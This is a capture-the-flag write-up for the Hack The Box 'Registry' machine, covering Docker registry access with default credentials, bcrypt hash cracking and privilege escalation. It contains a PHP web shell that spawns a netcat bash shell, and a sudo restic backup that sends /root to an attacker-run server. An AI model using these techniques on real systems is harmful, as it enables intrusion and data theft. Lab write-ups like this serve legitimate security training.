[logo]: 01.jpg


---
## NMAP:
As always we will start with Nmap to scan for open ports and services:

```console
# Nmap 7.80 scan initiated Fri Apr  3 18:14:08 2020 as: nmap -sC -sV -p- -oA registry -v 10.10.10.159
Nmap scan report for docker.registry.htb (10.10.10.159)
Host is up (0.14s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp    open  http     nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title.
443/tcp   open  ssl/http nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title.
| ssl-cert: Subject: commonName=docker.registry.htb
| Issuer: commonName=Registry
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-05-06T21:14:35
| Not valid after:  2029-05-03T21:14:35
| MD5:   0d6f 504f 1cb5 de50 2f4e 5f67 9db6 a3a9
|_SHA-1: 7da0 1245 1d62 d69b a87e 8667 083c 39a6 9eb2 b2b5
31447/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  3 18:27:13 2020 -- 1 IP address (1 host up) scanned in 784.98 seconds

```
* From NMAP results we found HTTP service running and when we check it we found the default Nginx page.



* We also found SSL/HTTP service with ssl-cert contains  "Subject: commonName=docker.registry.htb"



* so we added "10.10.10.159 docker.registry.htb" to /etc/hosts file and now we got a blank page.



##Gobuster :

*Let's do directory bruteforcing with gobuster



 * We found this V2 Path

 

* WE tried admin/admin and we logged in 

 


---
We searched on google for docker v2 API we found this article https://docs.docker.com/registry/spec/api/ and we knew why the box name is registry.

* Let's check current images with _catalog

 

---

## Docker :
* Let's configure docker image and pull it 

```cosole
root@Kali:~/HTB/registry# cat /etc/docker/daemon.json 
{                                                                                                                                                                     
   "insecure-registries":["docker.registry.htb:443"]                                                                                                                      
}
```

```cosole
root@Kali:~/HTB/registry# service docker start
root@Kali:~/HTB/registry# docker login docker.registry.htb:443
Username: admin
Password: 
WARNING! Your password will be stored unencrypted in /root/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded
```
```console
root@Kali:~/HTB/registry# docker pull docker.registry.htb:443/bolt-image:latest
latest: Pulling from bolt-image
f476d66f5408: Pull complete 
8882c27f669e: Pull complete 
d9af21273955: Pull complete 
f5029279ec12: Pull complete 
2931a8b44e49: Pull complete 
c71b0b975ab8: Pull complete 
02666a14e1b5: Pull complete 
3f12770883a6: Pull complete 
302bfcb3f10c: Pull complete 
Digest: sha256:eeff225e5fae33dc832c3f82fd8b0db363a73eac4f0f0cb587094be54050539b
Status: Downloaded newer image for docker.registry.htb:443/bolt-image:latest
docker.registry.htb:443/bolt-image:latest
```
* Now we can run the docker image 

 

* We can find id_rsa SSH key in /root/.ssh

  

* and We got user bolt from config file

  

* We also found this script contains the passphrase for the id_rsa key


  

## User :

Let's login to 10.10.10.159 with bot ssh key and get user flag

  

---
* In our initial enumeration we ran gobuster against 10.10.10.159 and got this bolt path so let's check it




* We searched about this Bolt CMS and we found some useful informations about admin page and credentials db 



* Let copy database file to our machine and and see how can we open it  



```console
root@Kali:~/HTB/registry# sqlite3 bolt.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .table
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy   
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb
```
* and we got admin password hash 


## John The Ripper :

```consol
root@Kali:~/HTB/registry# john encpass 
Using default input encoding:UTF-8 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3]) 
Cost 1 (iteration count) is 1024 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
strawberry (?)
1g 0:00:00:35 DONE 2/3 (2020-04-03 19:31) 0.02802g/s 30.35p/s 30.35c/s 30.35C/s stinky..stuart
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
---
## Bolt :
Let's use admin creds to login






* We check this Bolt version for CVEs and we found this articale in resources about adding php to accepted file types and upload our php shell



```console
root@Kali:~/HTB/registry# cat shell.php 
<?php                                                                                                                                               

    system("nc.traditional -lvp 4444 -e /bin/bash")                                                                                                                   

?>

```







* and we got reverse shell as www-data

---
* by running "sudo -l" we found that we can run following command as root without password



* after some searching about restic we found its a backup program that connecting to rest server so we can deploy our server and forword a backup to it and restore it later on our machine

```console
apt install restic
```
```console
root@Kali:~/HTB/registry# restic init --repo /tmp/restic
enter password for new repository: 
enter password again: 
created restic repository 45jff4kc9n at /tmp/restic

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.

```
* Now we can forward the rest port to our machine over ssh as bolt



```console
www-data@bolt:~/html/bolt/files$ echo "zerocode" > pswd
www-data@bolt:~/html/bolt/files$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000 --password-file pswd /root
scan [/root]
[0:00] 10 directories, 14 files, 28.066 KiB
scanned 10 directories, 14 files in 0:00
[0:07] 100.00%  28.066 KiB / 28.066 KiB  24 / 24 items  0 errors  ETA 0:00 

duration: 0:07
snapshot 4kd94bv saved

```
* Now we can restore the backup on our machine
```console
root@Kali:~/HTB/registry# restic -r /tmp/restic/ restore latest --target ./
enter password for repository: 
repository 45jff4kc9n opened successfully, password is correct
restoring <Snapshot 4kd94bv of [/root] at 2020-04-03 20:07:59.491096967 +0000 UTC by root@bolt> to ./
```
## Root :
* Now we have the root flag


* Also we can connect to machine over SSH using root id_rsa key




---


## Resources:


[https://docs.docker.com/registry/spec/api/](https://docs.docker.com/registry/spec/api/)

[https://bolt.cm/](https://bolt.cm/)

[https://fgsec.net/from-csrf-to-rce-bolt-cms/](https://fgsec.net/from-csrf-to-rce-bolt-cms/)

[https://restic.readthedocs.io/en/stable/](https://restic.readthedocs.io/en/stable/)

[https://github.com/restic/rest-server/releases](https://github.com/restic/rest-server/releases)


---

[](https://www.hackthebox.eu/profile/131282 "Zer0Code")


